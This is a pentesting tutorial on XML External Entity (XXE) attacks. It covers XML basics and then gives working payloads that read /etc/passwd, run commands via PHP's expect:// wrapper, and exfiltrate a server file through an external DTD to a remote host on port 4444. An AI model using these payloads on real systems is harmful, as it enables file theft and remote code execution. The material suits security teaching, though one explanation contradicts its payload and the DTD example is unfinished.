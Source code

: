 # XML External Entity Attack

With this attack you can do:

* Read local files
* Denial-of-service
* Perform port-scan
* Remote Code Execution

Where do you find it:

* Anywhere where XML is posted.

* Common with file-uploading functionality. For files that uses XML, like: docx, pptx, gpx, pdf and xml itself.

### Background XML

XML is a markup language, like HTML. Unlike HTML is does not have any predefined tags. It is the user that create the tags in the XML object. XML is just a format for storing and transporing data. XML uses tags and subtags, just like html. Or parents, children, and syblings. So in that sense it has the same tree-structure as html.

To define a XML-section/document you need the following tag to begin:

```
<?xml version="1.0" encoding="UTF-8"?>
```

Example of valid XML:

```
<?xml version="1.0"?>
    <change-log>
        <text>Hello World</text>
    </change-log>
```

[https://www.owasp.org/index.php/XML\_External\_Entity\_\(XXE\)\_Processing](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)

### Syntax rule

* Must have root element
* Must have XML prolog

```
<?xml version="1.0" encoding="UTF-8"?>
```

* All elements must have closing tag
* Tags are case-sensitive
* XML Attributes must be quotes
* Special characters must be escaped correctly.

| &lt; | &lt; | less than |
| :--- | :--- | :--- |
| &gt; | &gt; | greater than |
| & | & | ampersand |
| ' | ' | apostrophe |
| " | " | quotation mark |

* Whitespace is perserved in XML

### Attack

So if an application receives XML to the server the attacker might be able to exploit an XXE. It could be sent as a GET, but it is more likely that it is send in a POST. An attack might look like this:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

The element can be whatever, it doesn't matter. The xxe is the "variable" where the content of /dev/random get stored. And by dereferencing it in the foo-tag the content gets outputted.This way an attacker might be able to read files from the local system, like boot.ini or passwd. SYSTEM means that what is to be included can be found locally on the filesystem.

In php-applications where the expect module is loaded it is possible to get RCE. It is not a very common vulnerability, but still good to know.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Even if the data is not reflected backto the website it is still possible to exfiltrate files and data from the server. The technique is similar to how you exfiltrate the cookie in a Cross-Site Scripting attack, you send it in the url.

### Test for it

* Input is reflected

```
<?xml version="1.0"?><!DOCTYPE Any [<!ENTITY xxe "testdata">]><add>&xxe;</add>
```

If "testdata" gets reflected then it is vulnerable to XXE. If it gets reflected you can try to exfiltrate the data the following way:

```
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

Another way to test it is to see if the server tries to download the external script. First you need to set up your own webserver, and then wait for it to connect.

```
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://192.168.1.101/fil.txt">]><test>&xxe;</test>
```

### Another example

Contents of xml.txt

```
<creds>
    <user>Ed</user>
    <pass>mypass</pass>
</creds>
```

curl -d @xml.txt http://localhost/xml\_injectable.php

returns

You have logged in as user Ed

Let’s modify the xml.txt file to contain the following code:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Now "curl -d @xml.txt http://localhost/xml\_injectable.php"  returns:

```
You have logged in as user root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

### Fun with dtd \(WIP\)

Modified xml

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY % extentity SYSTEM "http://192.168.1.10:4444/evil.dtd">
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
    %extentity;
    %inception;
    %sendit;
    ]
<
```

### contents of dtd

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/inetpub/wwwroot/Views/secret_source.cshtml">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://192.168.1.10:4444/?%stolendata;'>">
```

### Exfiltrate data through URL

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

### References

https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection

https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities

[https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/](https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/)

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

[http://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html](http://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html)

